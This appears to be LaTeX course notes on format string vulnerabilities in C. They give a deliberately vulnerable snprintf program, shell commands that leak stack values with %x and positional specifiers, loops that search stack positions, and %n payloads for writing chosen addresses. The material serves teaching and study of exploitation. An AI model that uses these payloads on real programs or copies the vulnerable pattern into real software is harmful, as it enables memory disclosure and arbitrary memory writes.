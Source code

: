 \documentclass{article}
\begin{document}
\subparagraph{Specific access}
\begin{lstlisting}[style=CStyle]
#include <stdio.h>

void test(char* arg){
    char buf[250];
    snprintf(buf, 250, arg);
    printf("buffer: %s\n", buf);
}

int main(int argc, char* argv[]) {
    test(argv[1]);
    return 0;
}
\end{lstlisting}
Two executions of the code above result in the following
\begin{lstlisting}[language=bash]
$ ./code "%x %x %x"
buffer: f59b87a0 d1772d80 d1772d897


$ ./code "%3\$x"
buffer: d1772d897	#the third!
\end{lstlisting}
We can use loops to find interesting positions (design the vulnerability), and then aim for those positions directly (deploy it):
\begin{lstlisting}[language=bash]
$ for i in `seq 1 3`; do echo -n "$i " && ./code "$i\$x"; done
1 buffer: f59b87a0 
2 buffer: d1772d80 
3 buffer: d1772d897
\end{lstlisting}
We can also look for specific values:
\begin{lstlisting}[language=bash]
$ for i in `seq 1 3`; do echo -n "$i " && ./code "$i\$x"; done | grep d897
3 buffer: d1772d897
\end{lstlisting}

\subsection{Writing using format string bugs}
\paragraph{Super powerful placeholder:} printf("hello\color{blue}\%n \color{black}",\&i) $\rightarrow$ writes \underline{in i} the \underline{number of chars (bytes)} printed so far (in the example it will write 5)
\paragraph{Writing an address on the stack:}
\begin{lstlisting}[language=bash]
$ ./code "AAAA%2$n"
\end{lstlisting}
Is equivalent to 
\begin{lstlisting}[language=bash]
$ ./code "`python -c 'print "AAAA%2$n"'`"
\end{lstlisting}
Which is equivalent to 
\begin{lstlisting}[language=bash]
$ ./code "`python -c 'print "\x41\x41\x41\x41%2$n"'`"
\end{lstlisting}
We can replace the \textbackslash x41 with whatever bytes we like (in hex), inserting whatever address we like 
\end{document}
